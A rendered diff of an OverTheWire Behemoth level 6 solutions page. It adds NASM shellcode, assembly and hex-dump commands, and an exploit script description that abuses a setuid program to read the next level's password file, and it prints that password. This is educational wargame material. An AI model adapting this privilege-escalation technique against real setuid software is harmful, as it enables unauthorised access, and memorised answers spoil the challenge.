

Before and after one commit to jaher/overthewire-solutions, a Markdown page: behemoth-solutions.md, the part around one of its changes. Shown at 92% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/behemoth-solutions.md
+++ b/behemoth-solutions.md
@@ -224,11 +224,45 @@ Verification: each password was accepted by logging in as the next level's accou
   The shellcode is assembled from `vim /tmp/b6.asm` with `nasm -f elf32`, `objdump -d -M intel`, `objcopy -O binary --only-section=.text`, `xxd -p`. The string is built with three little-endian pushes (`"Hell"`, `"oKit"`, `"ty\0\0"`) because a 10-byte string does not fit in one immediate.
 
 ### Step-by-step discovery and crafting (what the recording shows)
-1. **Read both programs.** `strings` shows `HelloKitty`, `shellcode.txt`, `Couldn't open shellcode.txt!`, `Write your own shellcode.`; `objdump -d` shows the `mmap(..., PROT_READ|WRITE|EXEC, MAP_ANON, fd, 0)` call and `call *%eax`, and the `0x0b` scan loop.
-2. **Write `/tmp/b6.asm` in vim** and assemble it (nasm/objdump/objcopy/xxd → 41 bytes).
-3. **Write `/tmp/e_behemoth6.py` in vim**: it writes the assembled bytes to `./shellcode.txt` in a writable directory, runs `behemoth6` on a raw pty, and feeds `id` / `cat /etc/behemoth_pass/behemoth7` to the shell.
-4. **Run it.** The recording shows `Correct.`, `uid=13007(behemoth7)`, and `aHHctqVRgi`.
-5. **Verify.** Log in as behemoth7.
+1. **Read both programs.** `strings` shows `HelloKitty`, `shellcode.txt`, `Couldn't open shellcode.txt!`, `Write your own shellcode.`; `objdump -d` on `behemoth6` shows `popen`, `fread(buf,10,1)`, `strcmp(buf,"HelloKitty")`, then `setreuid(euid,euid)` and `execl("/bin/sh",...)`. On `behemoth6_reader` it shows the `open("shellcode.txt")` → `mmap(0, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, fd, 0)` → `call *%eax` sequence, plus the loop that walks the first 0x1000 bytes and rejects the file on byte `0x0b`.
+2. **Write the shellcode in `vim /tmp/b6.asm`.** The payload must print exactly `HelloKitty` (the bytes `behemoth6` compares against) and then exit, so `behemoth6` proceeds to `execl("/bin/sh")`. Every instruction is chosen to avoid a NUL byte in the output and to avoid `0x0b`:
+   ```
+   BITS 32
+   global _start
+   _start:
+       ; write(1, "HelloKitty", 10) -- the string behemoth6 compares against
+       xor eax, eax
+       push eax
+       push 0x00007974      ; "ty\0\0" (little-endian)
+       push 0x74694b6f      ; "oKit"
+       push 0x6c6c6548      ; "Hell"
+       mov ecx, esp         ; ecx -> "HelloKitty"
+       xor ebx, ebx
+       inc ebx              ; ebx = 1 (stdout)
+       xor edx, edx
+       mov dl, 10           ; edx = 10 (length)
+       xor eax, eax
+       mov al, 4            ; eax = 4 (sys_write)
+       int 0x80
+       ; exit(0)
+       xor eax, eax
+       mov al, 1            ; eax = 1 (sys_exit)
+       xor ebx, ebx         ; ebx = 0
+       int 0x80
+   ```
+   Why it is written this way: a 10-byte string cannot be pushed in one immediate, so it is pushed as three dwords; `push eax` first puts a NUL terminator below the string, which is harmless for `write` because the length is explicit. `xor reg,reg; mov al,N` avoids zero bytes in the encoding, and the instruction stream contains no `0x0b`.
+3. **Assemble and inspect it.**
+   ```
+   nasm -f elf32 /tmp/b6.asm -o /tmp/b6.o
+   objdump -d -M intel /tmp/b6.o     # shows 68 74 79 00 00 / 68 6f 4b 69 74 / 68 48 65 6c 6c ...
+   objcopy -O binary --only-section=.text /tmp/b6.o /tmp/b6.bin
+   xxd -p /tmp/b6.bin                # 31c0506874790000686f4b69746848656c6c89e131db4331d2b20a31c0b004cd8031c0b00131dbcd80
+   wc -c /tmp/b6.bin                 # 41 bytes
+   ```
+   The `xxd` output is the check against the `0x0b` rule: none of the bytes is `0x0b` (the byte `0x00` inside the string pushes is fine for the *file*, only argv cannot carry NULs).
+4. **Write `/tmp/e_behemoth6.py` in vim.** It loads `/tmp/b6.bin`, asserts `b"\x0b" not in sc`, creates `/tmp/b6work` (world-writable), writes the bytes to `shellcode.txt` there, `chdir`s into it, and runs `behemoth6` on a **raw-mode pty** (so the shell it execs is interactive); then it feeds `id`, `cat /etc/behemoth_pass/behemoth7`, `exit` and prints what the shell produced.
+5. **Run it.** The recording shows `shellcode (41 bytes): 31c050687479...`, `wrote /tmp/b6work/shellcode.txt (41 bytes)`, `Correct.`, `uid=13007(behemoth7) gid=13006(behemoth6)`, and `aHHctqVRgi`.
+6. **Verify.** Log in as behemoth7 (`whoami` → `behemoth7`).
 - **Password for behemoth7:** `aHHctqVRgi`
 - **Verification:** logged in as `behemoth7` with this password.
 - **Recording:** `recordings/behemoth/L6.cast`
````
Also changed, not shown: other parts of behemoth-solutions.md (+63 -4 lines).
